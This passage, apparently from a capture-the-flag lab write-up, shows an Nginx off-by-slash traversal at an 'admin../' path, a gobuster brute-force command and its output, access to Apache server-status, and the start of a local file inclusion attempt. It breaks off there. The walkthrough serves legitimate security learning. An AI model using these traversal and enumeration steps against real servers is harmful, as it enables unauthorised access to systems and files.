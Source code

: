 [Common Nginx misconfigurations that leave your web server open to attack | Detectify Blog](https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/)

These two blogs explain how reverse-proxy’s are vulnerable to different types of attack. But for this machine, we will take advantage of **off-by-slash** misconfiguration to traverse one step up the path.

![Screen Shot 2021-07-21 at 00.43.22.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5AD46529-1428-475F-B1B6-D9EAC2A22BD9/9CD47DDF-E269-45F0-9380-2EA58914C2A1_2/Screen%20Shot%202021-07-21%20at%2000.43.22.png)

If we try this attack on admin endpoint then it gives forbidden error, but if we try this on other endpoints then it’d give not found error. So, this admin is vulnerable to off-by-slash misconfiguration.

Let’s run a directory brute-force on this endpoint to find any files or directory.

```other
⛩\> gobuster dir -u http://10.129.186.91/admin../ -t 30 -b 404,403 -w ~/tools/SecLists/Discovery/Web-Content/raft-small-words.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.186.91/admin../
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /home/kali/tools/SecLists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/20 10:28:15 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 401) [Size: 456]
/javascript           (Status: 301) [Size: 314] [--> http://127.0.0.1:81/javascript/]
/server-status        (Status: 200) [Size: 5200]
```

We got these endpoints under admin. Let’s check it.

![Screen Shot 2021-07-21 at 00.50.14.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5AD46529-1428-475F-B1B6-D9EAC2A22BD9/4B4E6ABF-ADD0-4110-B2C0-465E1AFA1C9A_2/Screen%20Shot%202021-07-21%20at%2000.50.14.png)

We got access to Apache server status and we can see some logs, ‘admin_staging’ endpoint is new to information. Let’s access this.

![Screen Shot 2021-07-21 at 00.57.01.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5AD46529-1428-475F-B1B6-D9EAC2A22BD9/E166FD94-300F-46A9-BB25-75BE4F7648D2_2/Screen%20Shot%202021-07-21%20at%2000.57.01.png)

Material-Dashboard Bootstrap is running on this endpoint. If we click on user profile, then it takes us to this below URL.

![Screen Shot 2021-07-21 at 01.02.24.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5AD46529-1428-475F-B1B6-D9EAC2A22BD9/B0CA5678-7FE6-4FA3-8228-CC147981DFBB_2/Screen%20Shot%202021-07-21%20at%2001.02.24.png)

As you can see user page is being served by calling it directly, so there is a possibility of File Inclusion attack. Let’s try to read the local file.

![Screen Shot 2021-07-21 at 01.10.07.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5AD46529-1428-475F-B1B6-D9EAC2A22BD9/3F18891D-EE1D-4B99-9781-74A8982A9D58_2/Screen%20Shot%202021-07-21%20at%2001.10.07.png)
